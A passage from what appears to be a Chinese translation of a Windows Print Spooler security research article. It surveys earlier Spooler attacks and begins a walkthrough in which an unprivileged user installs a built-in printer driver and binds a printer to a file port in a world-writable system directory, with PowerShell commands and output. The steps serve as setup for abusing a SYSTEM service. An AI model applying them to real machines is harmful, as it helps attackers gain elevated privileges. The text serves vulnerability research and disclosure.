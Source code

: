 由于`Spooler`服务（在`Spoolsv.exe`中实现）以`SYSTEM`权限运行，并且网络可达，因此这两个元素成功吸引了许多人的注意，尝试发起所有有趣的攻击，包括：

1、希望`Spooler`能将文件[打印](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-3239)到某个特权位置；

2、[加载](https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2016/ms16-087?redirectedfrom=MSDN)恶意的“打印机驱动”；

3、通过`Spooler` RPC API远程投放文件；

4、从远程系统注入“打印机驱动”；

5、[滥用](https://www.exploit-db.com/exploits/43465)EMF/XPS spooler文件中的文件解析bug来获得代码执行权限。

以上大多数尝试的确发现过bug，微软也针对某些bug加强了防御措施。即便如此，系统中还是存在不少逻辑问题，有些甚至是设计上的缺陷，会导致出现一些有趣的行为。

回到我们的话题，为了滥用打印机，我们首先必须加载一个打印机驱动。正常情况下，大家都会认为这需要高权限才能执行，并且有些MSDN页面还提示我们需要[`SeLoadDriverPrivilege`](https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)。然而从Vista开始，为了便于普通用户账户操作（并且现在会在用户模式下运行），因此实际情况会比较复杂。只要目标驱动是预先存在的内置驱动，我们不需要特权就能安装打印机驱动。

我们先来安装最简单的一个驱动：`Generic / Text-Only`驱动。（以普通用户权限）打开PowerShell窗口，然后输入：

```
Add-PrinterDriver -Name "Generic / Text Only"
```

接着枚举已安装的驱动：

```
&gt; Get-PrinterDriver

Name                                PrinterEnvironment MajorVersion    Manufacturer
----                                ------------------ ------------    ------------
Microsoft XPS Document Writer v4    Windows x64        4               Microsoft
Microsoft Print To PDF              Windows x64        4               Microsoft
Microsoft Shared Fax Driver         Windows x64        3               Microsoft
Generic / Text Only                 Windows x64        3               Generic
```

如果想用C语言来完成，也可以使用如下语句：

```
hr = InstallPrinterDriverFromPackage(NULL, NULL, L"Generic / Text Only", NULL, 0);
```

接下来是将新打印机与某个端口绑定。这里比较有趣的是（官方没有详细说明）：端口也可以使用文件，并且这与“打印到文件”有所不同。此时是一个文件端口，这是完全不同的一个概念。我们只需要在PowerShell中使用如下一行命令就可以（这里我们用的是全局可写的一个目录）：

```
Add-PrinterPort -Name "C:\windows\tracing\myport.txt"
```

获取打印机端口：

```
&gt; Get-PrinterPort | ft Name

Name
----
C:\windows\tracing\myport.txt
COM1:
COM2:
COM3:
COM4:
FILE:
LPT1:
LPT2:
LPT3:
PORTPROMPT:
SHRFAX:
```

